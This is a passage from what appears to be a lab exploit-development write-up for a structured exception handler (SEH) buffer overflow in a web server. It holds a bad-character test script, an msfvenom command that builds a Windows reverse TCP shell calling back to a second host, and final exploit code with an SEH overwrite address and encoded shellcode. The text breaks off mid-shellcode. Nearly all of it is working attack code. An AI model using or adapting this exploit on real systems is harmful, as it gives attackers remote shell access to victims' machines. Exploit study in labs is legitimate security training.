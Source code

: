 ```python
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

crash = 'A' * 4500
crash += badchars
crash += 'D' * (5000 - len(crash))


buffer="GET "
buffer+=crash
buffer+=" HTTP/1.1\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
expl.connect((ip, port))
expl.send(buffer)
expl.close()
```

I ended up determining that badcharacters for this particular application were: `\x00\x20\x25\x2b\x2f\x5c`

## End Game

At this point, I was feeling pretty confident that our shellcode could now be generated and used the following msfvenom command: `msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.1.208 LPORT=443 -f c -b '\x00\x20\x25\x2b\x2f\x5c'`

Our final exploit code now looks like this:
```python
import socket
import os
import sys

ip = "192.168.1.201"
port = 80

#Net Jump
nseh = "\x74\x06\x75\x04"

#POP POP RET 0x1001ab99
seh = '\x99\xab\x01\x10'

#msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.1.208 LPORT=443 -f c -b '\x00\x20\x25\x2b\x2f\x5c'
#351 bytes
shellcode = ("\xb8\x74\x9a\x9e\xe1\xd9\xe8\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
"\x52\x31\x43\x12\x03\x43\x12\x83\x9f\x66\x7c\x14\xa3\x7f\x03"
"\xd7\x5b\x80\x64\x51\xbe\xb1\xa4\x05\xcb\xe2\x14\x4d\x99\x0e"
"\xde\x03\x09\x84\x92\x8b\x3e\x2d\x18\xea\x71\xae\x31\xce\x10"
"\x2c\x48\x03\xf2\x0d\x83\x56\xf3\x4a\xfe\x9b\xa1\x03\x74\x09"
"\x55\x27\xc0\x92\xde\x7b\xc4\x92\x03\xcb\xe7\xb3\x92\x47\xbe"
"\x13\x15\x8b\xca\x1d\x0d\xc8\xf7\xd4\xa6\x3a\x83\xe6\x6e\x73"
"\x6c\x44\x4f\xbb\x9f\x94\x88\x7c\x40\xe3\xe0\x7e\xfd\xf4\x37"
"\xfc\xd9\x71\xa3\xa6\xaa\x22\x0f\x56\x7e\xb4\xc4\x54\xcb\xb2"
"\x82\x78\xca\x17\xb9\x85\x47\x96\x6d\x0c\x13\xbd\xa9\x54\xc7"
"\xdc\xe8\x30\xa6\xe1\xea\x9a\x17\x44\x61\x36\x43\xf5\x28\x5f"
"\xa0\x34\xd2\x9f\xae\x4f\xa1\xad\x71\xe4\x2d\x9e\xfa\x22\xaa"
"\xe1\xd0\x93\x24\x1c\xdb\xe3\x6d\xdb\x8f\xb3\x05\xca\xaf\x5f"
"\xd5\xf3\x65\xcf\x85\x5b\xd6\xb0\x75\x1c\x86\x58\x9f\x93\xf9"
"\x79\xa0\x79\x92\x10\x5b\xea\x5d\x4c\x62\x3a\x35\x8f\x64\xbb"
```